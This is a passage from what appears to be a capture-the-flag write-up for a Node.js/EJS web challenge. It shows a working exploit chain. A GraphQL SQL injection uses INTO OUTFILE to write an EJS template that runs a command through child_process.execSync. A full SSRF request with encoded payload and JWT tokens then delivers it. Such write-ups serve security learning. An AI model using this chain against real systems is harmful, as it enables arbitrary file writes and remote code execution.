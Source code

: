```
        templatePath = path.join(templateDir, `error.ejs`);
    }
    console.log(templatePath)
    res.render(templatePath, { error: err.message }, (renderErr, html) => {
        res.send(html);
    });
};

module.exports = { generateError, renderError }
```

- Here depend on the error status code, a template file is rendered from  `/views/errors/{errorcode}.ejs` and if it does not found returns to  `error.ejs`.

- We cant override any exisiting files ,maybe we should prdouce a non generic error code and write a file within `/views/errors/{ourerrorcode}.ejs` to render our flag?

- Quickly noticing the file structure.

<img src="https://github.com/blog-tamilctf/blog-tamilctf.github.io/blob/main/assets/img/missing.png?raw=true" height=200px>

- wewww! there is no 404 template and it easy to trigger a 404 error, so our idea is to write a 404.ejs using SQLi outfile and render a template to read the flag.

- The payload to write `<p><%=process.mainModule.require('child_process').execSync('/readflag') %></p>` as `404.ejs` and into the directory `/app/views/errors/404.ejs`


#### Payload:
```
{getDataByName(name:"admin\n' union select 1,'<p><%= process.mainModule.require(\"child_process\").execSync(\"/readflag\") %></p>',2,3 into outfile '/app/views/errors/404.ejs'-- "){name
department
isPresent
}}
```

- We need to send the above payload in the request.

```
POST /download?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTcxNjIxMDUzMX0.2gwPTRqbPfj4Axbz2B3t4HNWHHdcgIXgTCcCyGaupW0 HTTP/1.1
Host: host:30586
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

url=http://0.0.0.0:1337/graphql?query=%257bgetDataByName(name%253a%2522admin%255cn'%2520union%2520select%25201%252c'%253cp%253e%253c%2525%253d%2520process.mainModule.require(%255c%2522child_process%255c%2522).execSync(%255c%2522%252freadflag%255c%2522)%2520%2525%253e%253c%252fp%253e'%252c2%252c3%2520into%2520outfile%2520'%252fapp%252fviews%252ferrors%252f404.ejs'--%2520%2522)%257bname%250adepartment%250aisPresent%250a%257d%257d%26token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJyZXF1aXJlZFJvbGUiOiJhZG1pbiIsImlhdCI6MTcxNjIxMjM3M30.Cf49E4-_dHEoTBfMfplbKikF1ns-LDjWR5ftHG-9bfk
```
